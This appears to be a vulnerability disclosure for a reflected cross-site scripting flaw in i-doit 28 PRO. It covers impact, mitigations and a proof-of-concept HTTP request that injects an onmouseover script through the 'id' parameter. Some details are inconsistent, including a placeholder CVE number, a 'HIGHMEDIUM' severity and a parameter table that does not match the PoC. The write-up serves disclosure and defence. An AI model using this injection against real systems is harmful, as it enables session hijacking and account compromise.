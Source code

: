 # CVE-2024-?

## Vulnerability Details:

- **CVSS Score:** 6.8 HIGHMEDIUM (CVSS:3.1/AV:N/AC:L/PR:L/UI:R/S:U/C:H/I:L/A:L)

- **Affected Component:** [I-DOIT](https://www.i-doit.com) parameters:


    | Parameter                    | Description                                       | URL (PoC)  |
    |------------------------------|---------------------------------------------------|------------|
    | multiedit (arbitrarily supplied) | Name of an arbitrarily supplied URL parameter for /multiedit route | /multiedit |

- **Vulnerability Type:** Cross-site scripting Reflected (XSS)

- **Impact:** If an attacker can control a script that is executed in the victim's browser, then they can typically fully compromise that user. Amongst other things, the attacker can:
  - Perform any action within the application that the user can perform.
  - View any information that the user is able to view.
  - Modify any information that the user is able to modify.
  - Initiate interactions with other application users, including malicious attacks, that will appear to originate from the initial victim user.

- **Exploitability:** The vulnerability can be exploited by crafting specifically malicious queries and submitting them through the vulnerable parameters.

- **Affected Versions:** Tested only in [I-DOIT](https://www.i-doit.com) 28 PRO

- **Details:** A Reflected Cross-Site Scripting (XSS) vulnerability occurs when user input is not properly sanitized by a web application and is then echoed back to the user's browser without adequate encoding. This allows an attacker to inject and execute malicious scripts within the context of the victim's session.

- **Mitigation:** Preventing cross-site scripting isn't a simple fix that you can turn on or off. Depending on the web application, protection strategies will differ. That said, it's important to consider the following strategies for how to mitigate cross-site scripting.

  - **Whenever possible, prohibit HTML code in inputs.** Preventing users from posting HTML code into form inputs is a straightforward and effective measure.
  - **Validate inputs.** If you're going to accept form inputs, validating the data to ensure it meets specific criteria will be helpful
  - **Secure your cookies.** Setting rules for your web applications defining how cookies are handled can prevent XSS and even block JavaScript from accessing cookies.
  - **Sanitize data.** Similar to validation, sanitizing occurs after data has been posted but before it is executed. Look for online tools like HTMLSanitizer to sanitize HTML code online for XSS vulnerabilities.
  - **Use a web application firewall (WAF).** Rules can be created on a WAF to specifically address XSS by blocking abnormal server requests. A robust WAF should be a key component of your organization's security strategy, as it can also prevent SQL injection attacks, distributed denial-of-service attacks and other common threats.

## Proof of Concept (PoC):

An attacker could craft a malicious request to exploit the vulnerability:

```HTTP Request
GET /?moduleID=7&id=s3j5b%22onmouseover%3d%22alert(1)%22style%3d%22position%3aabsolute%3bwidth%3a100%25%3bheight%3a100%25%3btop%3a0%3bleft%3a0%3b%22kmc6x&mNavID=2&lang=de HTTP/1.1
Host: 192.168.1.46
Accept-Encoding: gzip, deflate, br
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Connection: close
Cache-Control: max-age=0
Cookie: PHPSESSID=3e9a5hs6b6rbcmv77aipbkhddu
Upgrade-Insecure-Requests: 1
Referer: http://192.168.1.46/?moduleID=7&id=5047
Sec-CH-UA: ".Not/A)Brand";v="99", "Google Chrome";v="121", "Chromium";v="121"
Sec-CH-UA-Platform: Windows
Sec-CH-UA-Mobile: ?0
Content-Length: 0
```

![image](https://github.com/offensive-security-pwncat/CVE/blob/main/XSS/img/022024.jpeg?raw=true)

## Recommendations:

- **Patch:** Develop and deploy a patch or update that addresses the XSS Reflected vulnerabilities in the affected parameters.

- **Education:** Provide training and resources to developers on secure coding practices, emphasizing the importance of input validation and preventing XSS Refelcted vulnerabilities.

